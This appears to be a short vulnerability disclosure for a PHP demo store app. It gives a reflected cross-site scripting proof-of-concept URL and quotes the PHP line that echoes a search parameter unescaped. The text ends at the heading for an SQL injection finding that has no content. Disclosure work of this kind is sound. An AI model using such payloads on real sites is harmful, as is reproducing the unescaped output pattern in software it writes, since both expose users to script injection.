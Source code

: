 ### Exploit Title: Online Computer and Laptop Store - Multiple vulnerabilities
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/download-code?nid=16397&title=Online+Computer+and+Laptop+Store+using+PHP+and+MySQL+Source+Code+Free+Download
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1.Xss vulnerability in products.php

### Sample request POC #1

```
http://10.211.55.3:8001/?p=products&search=%3Cscript%3Ealert(1)%3C/script%3E
```
### Browser Access Results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683794793720.jpg "Online Computer and Laptop Store - Multiple vulnerabilities")

### Related Codes /products.php
```
...
<div class="<?php echo isset($_GET['c'])? 'col-md-9': 'col-lg-10 offset-md-1' ?>">
            <div class="container-fluid p-0">
                <?php if(isset($_GET['search'])): ?>
                    <h4 class="text-center py-5"><b>Search Results for '<?php echo $_GET['search'] ?>'</b></h4>
                <?php endif; ?>
            <div class="row gx-2 gx-lg-2 row-cols-1 row-cols-md-3 row-cols-xl-4">
...
```

# 2.SQL injection vulnerability in products.php
